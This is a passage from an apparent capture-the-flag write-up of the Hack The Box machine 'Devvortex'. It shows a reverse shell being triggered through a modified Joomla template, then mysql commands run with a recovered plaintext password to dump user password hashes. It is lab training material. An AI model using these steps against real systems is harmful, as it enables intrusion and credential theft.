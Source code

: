 Then next up we need to browse to the template file location to trigger our reverse shell. **http://dev.devvortex.htb/templates/cassiopeia/offline.php**.

Moments later our reverse shell would open.

![Shell connected](/assets/img/Devvortex/Devvortex_06.png)


### Lateral movement to Logan 

So we have access to **www-data** user now, but this user doesn't have much rights as far as i can see. But seeing we did get the credentials of the database user and password for the mysql server. First i listed all the tables using the following command. When prompted for a password i filled in **P4ntherg0t1n5r3c0n##**

```bash
mysql -u lewis -p joomla  -h 127.0.0.1 -e 'SHOW TABLES;'
```

This gave us the following tables where we could see the naming convention for the tables.

```
<snipped for brevity>
sd4fg_user_profiles
sd4fg_user_usergroup_map
sd4fg_usergroups
sd4fg_users
sd4fg_viewlevels
sd4fg_webauthn_credentials
sd4fg_workflow_associations
sd4fg_workflow_stages
sd4fg_workflow_transitions
sd4fg_workflows
```

next up i decided to extract the password hashes from the **sd4fg_users** table.

```bash
mysql -u lewis -p joomla  -h 127.0.0.1 -e 'select * from sd4fg_users;'
```

Which gave us the following output.

```
id	name	username	email	password	block	sendEmail	registerDate	lastvisitDate	activation	params	lastResetTime	resetCount	otpKey	otep	requireReset	authProvider
649	lewis	lewis	lewis@devvortex.htb	$2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u	0	1	2023-09-25 16:44:24	2023-11-27 21:07:25	0		NULL	0			0	
650	logan paul	logan	logan@devvortex.htb	$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12	0	0	2023-09-26 19:15:42	NULL		{"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"}	NULL	0			0
```
